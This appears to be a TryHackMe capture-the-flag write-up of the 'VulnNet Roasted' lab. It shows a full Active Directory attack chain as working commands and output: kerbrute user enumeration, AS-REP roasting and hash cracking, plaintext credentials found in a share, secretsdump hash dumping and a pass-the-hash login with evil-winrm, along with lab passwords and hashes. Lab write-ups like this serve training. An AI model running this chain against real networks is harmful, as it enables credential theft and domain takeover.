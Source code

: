 # THM: VulnNet Roasted

## Reconnaissance

An nmap nse ldap script found the domain name of the system. 

```
PORT    STATE SERVICE REASON          VERSION
389/tcp open  ldap    syn-ack ttl 125 Microsoft Windows Active Directory LDAP 
(Domain: vulnnet-rst.local, Site: Default-First-Site-Name)
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       domainFunctionality: 7
|       forestFunctionality: 7
|       domainControllerFunctionality: 7
|       rootDomainNamingContext: DC=vulnnet-rst,DC=local
|       ldapServiceName: vulnnet-rst.local:win-2bo8m1oe1m1$@VULNNET-RST.LOCAL

```
Two intersting SMB shares were able to read read anonymously. 

```
VulnNet-Business-Anonymous                        	READ ONLY	VulnNet Business
Sharing
	.\VulnNet-Business-Anonymous\*
	dr--r--r--                0 Fri Mar 12 22:21:04 2021	.
	dr--r--r--                0 Fri Mar 12 22:21:04 2021	..
	fr--r--r--              758 Fri Mar 12 22:21:04 2021	Business-Manager.txt
	fr--r--r--              654 Fri Mar 12 22:21:04 2021	Business-Sections.txt
	fr--r--r--              471 Fri Mar 12 22:21:04 2021	Business-Tracking.txt
	VulnNet-Enterprise-Anonymous                      	READ ONLY	VulnNet Enterprise Sharing
	.\VulnNet-Enterprise-Anonymous\*
	dr--r--r--                0 Fri Mar 12 22:19:59 2021	.
	dr--r--r--                0 Fri Mar 12 22:19:59 2021	..
	fr--r--r--              467 Fri Mar 12 22:19:59 2021	Enterprise-Operations.txt
	fr--r--r--              503 Fri Mar 12 22:19:59 2021	Enterprise-Safety.txt
	fr--r--r--              496 Fri Mar 12 22:19:59 2021	Enterprise-Sync.txt
```

From these files found multiple mentions of full names which I added to a file 
called `names.txt`. I then used a simple python script I wrote to generate
possible usernames based on common conventions saving the output as
`usernames.txt`.
[Link to repo.](https://github.com/Ru57y5hck3lfrd/username-generator)

```
[kali@kali ~/thm/vulnet-roasted/exploit] python username-gen.py names.txt 
usernames.txt
```

Using kerbrute's userenum module in conjunction the usernames list I found 4
valid usernames. 
 
```
[kali@kali ~/thm/vulnet-roasted/exploit] /opt/kerbrute/kerbrute_linux_386 
userenum -d vulnnet-rst.local --dc 10.10.174.217  usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 11/22/22 - Ronnie Flathers @ropnop

2022/11/22 15:51:06 >  Using KDC(s):
2022/11/22 15:51:06 >  	10.10.174.217:88

2022/11/22 15:51:06 >  [+] VALID USERNAME:	 a-whitehat@vulnnet-rst.local
2022/11/22 15:51:07 >  [+] VALID USERNAME:	 j-goldenhand@vulnnet-rst.local
2022/11/22 15:51:07 >  [+] VALID USERNAME:	 t-skid@vulnnet-rst.local
2022/11/22 15:51:07 >  [+] VALID USERNAME:	 j-leet@vulnnet-rst.local
2022/11/22 15:51:08 >  Done! Tested 96 usernames (4 valid) in 2.115 seconds
```

I added these known valid usernames to a file called `valid-usernames.txt`
adding Administrator, Guest, and krbtgt to the list as well.

I checked for ASREP-roastable users with Impacket's GetNPUsers, this got the
hash for the user t-skid.

```
[kali@kali ~/thm/vulnet-roasted/exploit] impacket-GetNPUsers -dc-ip 10.10.174.217 -usersfile valid-users.txt vulnnet-rst.local/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:8bd68bdbd1c4ceca5c9470bcad44201a$42c1755232514a74d9e026c2c08b40209dbdcbd4b389cd19e50064b67e55fb081bcd188833f644956ef75a5594a18407c4577480456f444ebab162eaa0a7b3e083a6db1c65aaec10547cded0c0f378b5f0bd6b83fbcec8878d7defcd415971c2e49fb4dbc9128147053d131bd095971c88a8ba4464a865fcf8721675869e6fb76fc13ccca55bf6eb069262a959f104d264e8ad8a1a93c46750ce978958d62f801dacafa613b7e2847f8444dccff63e5430fddfb846c66a3409aa3e1e2dad2686d8b333e9514468bd67a8beac4b6d0b5fc48e4810c2c0b7e7e34550a04f5de05e8ceef41248dcd28909dac858c1f578d43834570ffee2
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```

## Initial Access

I used john to crack the t-skids password with the `rockyou.txt` wordlist. 

```
[kali@kali ~/thm/vulnet-roasted/loot] john --wordlist=/usr/share/wordlists/rockyou.txt 
--format=krb5asrep asrep.hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)     
1g 0:00:00:01 DONE (2022-11-22 15:59) 0.5464g/s 1736Kp/s 1736Kc/s 1736KC/s tj3929..tj0216044
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I attempted to log on with these credentials via the usual methods without
success. However, 
Using crackmapexec's smb spider module with these credentials we now have access 
to a vbs script called ResetPassword located in NETLOGON. This file contained
plain-text credentials for the user a-whitehat.

```
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"

```  

Using crackmapexec I confirmed that these credentials were valid. 

```
[kali@kali ~/thm/vulnet-roasted/loot] crackmapexec smb -u 'a-whitehat'
-p 'bNdKVkjv3RR9ht' -d vulnnet-rst.local 10.10.174.217         
SMB         10.10.174.217   445    WIN-2BO8M1OE1M1  [*] Windows 10.0 Build 17763 x64 (name:WIN-2BO8M1OE1M1) (domain:vulnnet-rst.local) (signing:True) (SMBv1:False)
SMB         10.10.174.217   445    WIN-2BO8M1OE1M1  [+] vulnnet-rst.local\a-whitehat:bNdKVkjv3RR9ht (Pwn3d!)
```

Attempts to log in with psexec failed even though this user could write to the
shares, but I was able to log on using wmiexec. 

```
[kali@kali ~/thm/vulnet-roasted/loot] impacket-wmiexec  vulnnet-rst.local/a-whitehat@10.10.174.217
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
vulnnet-rst\a-whitehat

C:\>
```

This user is in the Domain Admin's group, but can't read the system.txt file.

## Privilege Escalation

I used Impacket's secretsdump to dump the hashes of all domain users.

```
[kali@kali ~/thm/vulnet-roasted/loot] impacket-secretsdump vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.174.217                             
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...snip...
```

I used a Pass-The-Hash attack to log in as adminitstator via `evil-winrm`.

```
[kali@kali ~/thm/vulnet-roasted/loot] evil-winrm -u administrator -H c2597747aa5e43022a3a3049a3c3b09d -i 10.10.174.217                                     

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
vulnnet-rst\administrator
```
